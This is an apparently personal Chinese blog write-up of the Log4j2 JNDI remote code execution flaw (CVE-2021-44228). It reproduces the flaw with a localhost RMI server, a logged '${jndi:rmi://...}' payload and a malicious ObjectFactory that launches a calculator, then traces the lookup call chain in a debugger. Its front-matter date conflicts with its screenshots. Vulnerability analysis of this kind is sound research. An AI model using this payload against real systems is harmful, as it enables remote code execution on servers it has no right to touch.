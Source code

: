 ```yaml
---
title: log4j2漏洞分析（CVE-2021-44228）
date: 2021-2-25
tags:
 - Vulnerabilities
 - 笔记
categories:
 - Vulnerabilities

---
```


## log4j2漏洞分析（CVE-2021-44228）

### 0x01 漏洞描述

Apache Log4j2 是 Apache 的一个开源项目，Apache Log4j2 是一个基于 Java 的日志记录工具，使用非常广泛，被大量企业和系统索使用，漏洞触发及其简单，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置。

影响范围：Apache Log4j 2.x<=2.14.1

### 0x02 漏洞复现

使用maven引入相关组件，相应的pom.xml文件：

```xml
<dependencies>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-core</artifactId>
        <version>2.14.1</version>
    </dependency>
</dependencies>
```

下面的复现利用的是log4j2提供的jndi功能，自己手动构建恶意类的方式调用

服务端：

```java
public class Rmiserver {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(12345);
        Reference reference = new Reference("Hello", "Hello",
                "http://127.0.0.1:8080/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("obj", referenceWrapper);
    }
}
```

客户端：

```java
public class Log4jTEst {
    public static void main(String[] args) {
        Logger logger = LogManager.getLogger();
        logger.error("${jndi:rmi://127.0.0.1:12345/obj}");
    }
}
```

恶意类：

```java
public class Hello implements ObjectFactory  {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("hello");
        Runtime.getRuntime().exec("calc");
        return null;
    }
}
```

复现：

![image-20220606150933683](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606150934.png)

### 0x03 漏洞调用链分析

在入口点logger.error()打上断点：

![image-20220606151109583](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606151109.png)

进入`org.apache.logging.log4j.spi#error`：

![image-20220606151733961](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606151734.png)

`org.apache.logging.log4j.spi#logIfEnabled`：

![image-20220606152129024](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606152129.png)

`org.apache.logging.log4j.spi#logMessageTrackRecursion`：

![image-20220606152226076](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606152226.png)

就这样一步步递归，走到关键点`org.apache.logging.log4j.core.appender#directEncodeEvent`。该方法的第一行代码将返回当前使用的布局，并调用对应布局处理器的encode方法

![image-20220606152427303](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606152427.png)

log4j2默认缺省布局使用的是PatternLayout：

![image-20220606152908926](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606152909.png)

继续跟进在encode中会调用toText方法，根据注释该方法的作用为创建指定日志事件的文本表示形式，并将其写入指定的StringBuilder中。`org.apache.logging.log4j.core.layout#encode`

![image-20220606153233315](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606153233.png)

跟进toText方法：`org.apache.logging.log4j.core.layout#toText`

![image-20220606153334624](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606153334.png)

接下来会调用`serializer.toSerializable`，并在这个方法中调用不同的Converter来处理传入的数据，如下图所示，

这里一步步将event添加到buf中：

![image-20220606153723600](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606153723.png)

一直添加到：

![image-20220606153811581](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606153811.png)

开始解析`${`。`org.apache.logging.log4j.core.pattern#format`

![image-20220606154019040](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606154019.png)

下面有一个关键点。这里对日志消息进行格式化，其中很明显的看到有针对字符”$”和”{“的判断，而且是连着判断，等同于判断是否存在”${“，这三行代码中关键点在于最后一行

![image-20220606154051465](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606154051.png)

![image-20220606154441647](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606154442.png)

注意此时的workingBuilder是一个StringBuilder对象，该对象存放的字符串如下所示

```
15.23.39.893 [main] ERROR Log4jTEst - ${jndi:rmi://127.0.0.1/obj}
```

本来这段字符串的长度是63，但是却给它改成了38，为什么呢？因为第38的位置就是`$`符号，也就是说只保留`$`之前的，`${jndi:rmi://127.0.0.1/obj}`这段不要了，从第38位开始append。而append的内容是什么呢？可以看到传入的参数是config.getStrSubstitutor().replace(event, value)的执行结果，其中的value就是`${jndi:rmi://127.0.0.1/obj}`这段字符串。也就是说这里append的字符串就是这段字符串replace后的内容。

replace的作用简单来说就是想要进行一个替换，我们继续跟进`org.apache.logging.log4j.core.lookup#replace`：

![image-20220606155051249](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606155051.png)

经过一系列的嵌套调用，来到了`org.apache.logging.log4j.core.lookup.StrSubstitutor#substitute`。StrSubstitutor类提供了关键的 `DEFAULT_ESCAPE` 是 `$`，`DEFAULT_PREFIX` 前缀是 `${`，`DEFAULT_SUFFIX` 后缀是 `}`，`DEFAULT_VALUE_DELIMITER_STRING` 赋值分隔符是 `:-`，`ESCAPE_DELIMITER_STRING` 是 `:\-`

![image-20220606200449819](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200450.png)

这个类提供的 `substitute` 方法，是整个 Lookup 功能的核心，用来递归替换相应的字符，这里来仔细看一下处理逻辑。

方法通过 while 循环逐个字符串寻找 `${` 前缀

![image-20220606200554339](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200554.png)

找到前缀后开始找后缀，但是在找后缀的 while 循环里，又判断了是否替换变量中的值，如果替换，则再匹配一次前缀，如果又找到了前缀，则 continue 跳出循环，再走一次找后缀的逻辑，用来满足变量中嵌套的情况。

![image-20220606200711471](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200711.png)

后续的处理中，通过多个 if/else 用来匹配 `:-` 和 `:\-`

![image-20220606200812347](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200812.png)

![image-20220606200846234](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606200846.png)

在没有匹配到变量赋值或处理结束后，将会调用 `resolveVariable` 方法解析满足 Lookup 功能的语法，并执行相应的 lookup ，将返回的结果替换回原字符串后，再次调用 `substitute` 方法进行递归解析。

![image-20220606155354466](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606155354.png)

跟进`org.apache.logging.log4j.core.lookup#resolveVariable`调用了lookup函数。

![image-20220606155814564](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606155814.png)

而这实际上是一个代理类 `Interpolator`，这个类在初始化时创建了一个 `strLookupMap` ，将一些 lookup 功能关键字和处理类进行了映射，存放在这个 Map 中

![image-20220606160238614](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606160238.png)

处理和分发的关键逻辑在于其 `lookup` 方法，通过 `:` 作为分隔符来分隔 Lookup 关键字及参数，从`strLookupMap` 中根据关键字`jndi`作为 key 匹配到对应的处理类`jndiLookup`，并调用其 lookup 方法。

![image-20220606160340327](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606160340.png)

![image-20220606160429996](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606160430.png)

由此调用了jndiLookup方法，弹出了计算器

![image-20220606160615534](https://raw.githubusercontent.com/Arielwyy/image-bed/master/img/20220606160616.png)

### 0x04 参考文献

* [从零到一带你深入 log4j2 Jndi RCE CVE-2021-44228漏洞](https://www.anquanke.com/post/id/263325)
* [浅谈 Log4j2 漏洞](https://tttang.com/archive/1378/)
* [史上最全 log4j2 远程命令执行漏洞汇总报告](https://cloud.tencent.com/developer/article/1919456)
* [Log4j2 研究之lookup](https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247485584&idx=1&sn=2fad11942986807ea7545f7b8b5d6af8&scene=21#wechat_redirect)